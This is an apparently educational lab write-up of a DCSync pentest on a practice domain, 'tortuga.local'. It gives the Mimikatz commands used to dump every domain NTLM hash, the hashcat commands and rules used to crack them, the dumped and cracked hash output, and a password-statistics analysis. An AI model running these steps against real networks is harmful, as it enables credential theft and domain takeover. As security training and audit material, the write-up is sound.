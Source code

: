 # DCsync Password Cracking
>> Performing a DC (Domain Control) sync pentest.

## Performing the DCSync.
- Using the administrator password obtained from the previous lab, I was able to gain access into the tortuga DC VM and load the Mimikatz trunk onto its desktop.
- Next, using the x64 version of mimikatz, I launched powershell from the file menu.
- With PowerShell open, I then launched Mimikatz using the command “./mimikatz.exe”. 
> -  NOTE: I used PowerShell instead of the default cmd launcher because of the limitations the default
cmd presents- While PowerShell is powerful and flexible

- I then used the mimikatz command “privilege::debug” to get “god tier” (debug) privileges, and then used those privileges to elevate my token using the mimikatz command “token::elevate”.
- Once I had elevated my privilege enough to access the password hashes through the DCSync, I used the command “lsadump::dcsync /domain:tortuga.local /all /csv”. This command dumps all the users within the tortuga.local domain along with their password hashes.
- Here’s the full output received from the previously discussed command:

```console
mimikatz # lsadump::dcsync /domain:tortuga.local /all /csv
[DC]
[DC]
[DC]"	"'tortuga.local' will be the domain 'dc01.tortuga.local' will be the DC server
Exporting domain 'tortuga.local'"	
1105	"U478384 0db3396a227ae978162e28d9f8bf3ff2"	66048
1106	"U724564 0bc2cd56aff62e231df637c9997f5db5"	66048
"… … …
1292"	"…
      "U472136 5437b3d561e5b3c302b8ea8f11aef318"	66048
1293	"U529036 3e202fa49136e93508b79bfca232479d"	66048
1294	"U328628 ad5e3408db1ea42441c755715c0c52a6"	66048
1295	"U879436 136ff21d05e3ad70135dc48884e81357"	66048
1296	"U858483 82fb725d156e9179063796dcc45d062a"	66048
1297	"U532495 3237a4cea1efc18fb4394dd41b7dd95d"	66048
1298	"U104961 2805976fa86da938b8b5209a0e73af75"	66048
1299	"U957087 3dbe233471445dbb58b72b95d80c71e7"	66048
1300	"U556079 bba37cb6350910920f27e495aac2d16c"	66048
1301	"U153711 6ba4fd921fa7ecdcc7ac2fe902b0657e"	66048
1302	"U786240 873333e2f8b3e477e840ffe5e77b2003"	66048
1303	"U348616 d64e61a36e000d77a5a1c98fbfe2ce6a"	66048
1304	"U786462 401511cbba86d51f9cd606b83a07d6d9"	66048
1305	"U594663 0ad8fb266a0e5921ebb56854200c6634"	66050
1309	"U257439 91e243f81613c8d3e7db88281c219a09"	66048
1310	"U478245 2d981fdd1f23a2085b7f331e856ab3a3"	590336
1311	"U951863 61b50ceaaa6fba36e9a2d2a85894044e"	17367552
1312	"U836158 ada363ecd153b172ecb664d8916af28d"	66176
1313	"U289311 018e5053ee63ea9da526bfdb51440022"	2097792
1314	"U697137 0f8389a06623ffeb4f866d2b1ba250d1"	640
1315	"U151654 cf3a5525ee9414229e66279623ed5c58"	640
1316	"U371973 cac3a73c02d89fd62392800815e0f425"	4194944
1306	"U891212 26b944d9d6872c12b41d75c39056c35e"	66048
1308	"U323582 09e0198d7ee73c264eb96bfadaa99d56"	66048
502	  "krbtgt  a3f657d01cd6a1f46a1ac36df545bf3b"	514
1320	"U536554 6f22b98d3db9991032ae6f267c0c2753"	672
1319	"wturner 793243be0762ce949633b1bf8c61de59"	66048
1317	"U787486 cac3a73c02d89fd62392800815e0f425"	672
1002	"DC01$   69fc65112f604d0f3c3c7e50d821c398"	532480
500	  "Admin   39d633e9c3fd963d603f131bf42d7ce8"
```

- Once I had all 214 usernames and password hashes for the tortuga.local domain, I moved the data to my attacker VM (Kali Linux distro). On this VM, I edited the data down to two
separate files; 
> - 1. Hashes only named “hashesonly.hashcat” and 
> - 2. Hashes with usernames"named “hashlist.hashcat. 
- Though I could use either of these files, the main file I used for cracking the passwords was the hashes only version.
- I then moved a copy of the “rockyou.txt” wordlist to the desktop and created a new file of the top-5000 words from the rockyou wordlist. This would simplify the use of flags to limit the word usage within the hashcat program itself.


## Cracking the hashes.
- Once the setup of the files had been completed, I moved on to using hashcat to start cracking the passwords. I started by running the hashesonly.hashcat files against the
rockyou.txt wordlist straight up with no other rules or flags.

```console
┌──(kali㉿kali)-[~/Desktop]
└─$  hashcat  -m 1000 -a 0 -o outfile.txt hashesonly.hashcat rockyou.txt
```

```console
Session..........: hashcat 
Status...........: Exhausted 
Hash.Name........: NTLM 
Hash.Target......: hashesonly.hashcat 
Time.Started.....: Sat Apr 3 13:50:14 2021 (3 secs) 
Time.Estimated...: Sat Apr 3 13:50:17 2021 (0 secs) 
Guess.Base.......: File (rockyou.txt) 
Guess.Queue......: 1/1 (100.00%) 
Speed.#1.........: 3895.5 kH/s (0.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8 
Recovered........: 3/213 (1.41%) 
Digests Progress.........: 14344385/14344385 (100.00%) 
Rejected.........: 0/14344385 (0.00%) 
Restore.Point....: 14344385/14344385 (100.00%) 
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1 
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> 
$HEX[042a0337c2a156616d6f732103]
```

- This initial test was quick, but only resulted in the successful cracking of 3 password hashes. I then used the “-k ‘$!’” flag to do a more advanced cracking of the passwords, checking for an “!” at the end of the passwords along with more combinations of two wordlists (both being rockyou.txt). This resulted in the finding of 17 more password hashes. And so I added the flag “-j ‘$-’” but was unfortunately not met with success. It wasn’t until I started using rules (“-r” with a path to the directory the file resides), that I was able to crack more passwords. The rules I ended up using were the “best64” (/usr/share/hashcat/rules/best64) and “dive” (/usr/share/hashcat/rules/dive).

```console
┌──(kali㉿kali)-[~/Desktop] 
└─$ hashcat hashesonly.hashcat -l 5000 -m 1000 -d 1 -k '$!' -a 1 
rockyou.txt rockyou.txt
```

```console
"INFO: Removed 3 hashes found in potfile.
Host memory required for this attack: 65 MB"	
		
"Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 205761381028225"		
		
"d64e61a36e000d77a5a1c98fbfe2ce6a:robertnicole07! 
ad5e3408db1ea42441c755715c0c52a6:zxcvbnmdallas12! 
32e9f9d0e79d4a661043d0fc6b0f0ce5:696969nicole89! 
8dfa93732ca48b1cc07946a4c786b924:gingerjoshua24! 
b361cf06d471f7b0ee54476d42fcc4fc:killerdragon86! 
cc98d098e89d294238d1b961e59c9e4f:qwertyuiopbuster45! 
5dcd7d41ee9dc5a3cfff92365dfff543:joshua123441! 
dc7b6ea42f6b7704c516a3a7172332c6:buster696907!
80f787e27b392374761c493133b6eb18:123123master68!
c7bbe6101e1c495329861712c45dc719:000000dragon51! 
c25a4236f838bfac372ea0f55fef6c4e:555555freedom48! 
cd2a722f9de2457286338c6b6c55a93f:nicoleaustin51! 
800ee86daccd73012afd749d9d89fc41:zxcvbnmqazwsx46! 
3572e91ae1d17ec6864e8297244b7701:777777asshole58! 
c01846e91a23ffb62255fd23b6da4ed5:freedom200097! 
e4b9b463edff8b4ec4c5d0fca14fa974:matrix13131315! 
6e1ece1bb9fb5bfb1c6aaa302b2dd059:1qaz2wsxsunshine32!"
```

- After many hours of my computer being throttled (95-98% RAM usage), I was able to find 25 passwords from the hashes obtained from the DCSync. After some collaboration with fellow cybersecurity professionals, we collectively found 27 unique passwords from the original 214 hashes. Here’s the list of the hashes found:

## Password Analysis
- The last part of auditing passwords is the analysis (or processing) of the passwords obtained. This is necessary in order to illustrate the weaknesses in the password policy and give a visual aid to everyone within the company to realize the severity of these vulnerabilities.
- The first tool I used to do this analysis is called “pack” and was downloaded at “https://github.com/iphelix/pack”."

```console
┌──(kali
└─$  python  statsgen.py  ~/Desktop/passwords.txt
_ StatsGen 0.0.3 | |
 _         _     | | _
| '_ \ / _` |/   | |/ /
| |_) | (_| | (  |   <
| .  / \  ,_|\   |_|\_\
| |
|_| iphelix@thesprawl.org"
"[*] Analyzing passwords in [/home/kali/Desktop/passwords.txt] [+] Analyzing 100% (27/27) of passwords
NOTE: Statistics below is relative to the number of analyzed passwords, not total number of passwords"
"[*] Password complexity:
[+]                   digit: min(0) max(11)
[+]                   lower: min(4) max(16)
[+]                   upper: min(0) max(2)
[+]                 special: min(0) max(1)
[*] Simple Masks:
[+]       stringdigitspecial: 51% (14)"
"[*]
[+]"	"Length:"	"15:"	0.370000	-10
"[+]"		"16:"	0.140000	-4
"[+]"		"13:"	0.110000	-3
"[+]"		"10:"	0.070000	-2
"[+]"		"14:"	0.070000	-2
"[+]"		"17:"	0.070000	-2
"[+]"		"19:"	0.070000	-2
"[+]"		"8:"	0.030000	-1
"[+]"		"20:"	0.030000	-1
"[*]"	"Character-set:"		
"[+]"	"loweralphaspecialnum:"	0.740000	-20
"[+]"	"all:"	0.110000	-3
"[+]"	"mixedalphanum:"	0.070000	-2
"[+]"	"mixedalphaspecial:"	0.070000	-2
"[+]"	"othermask:"	0.330000	-9	
"[+]"	"stringspecial:"	0.070000	-2	
"[+]"	"stringdigit:"	0.070000	-2	
```

- The second tool I used to do this analysis is called “password-analyzer” and was downloaded at “https://github.com/dank-panda/password-analyzer.py”.



- Separately, these tools don’t provide the most visually appealing output, however, when graphing this data in a program like Microsoft Excel or Google Sheets- The illustration becomes powerful and visually pleasing.

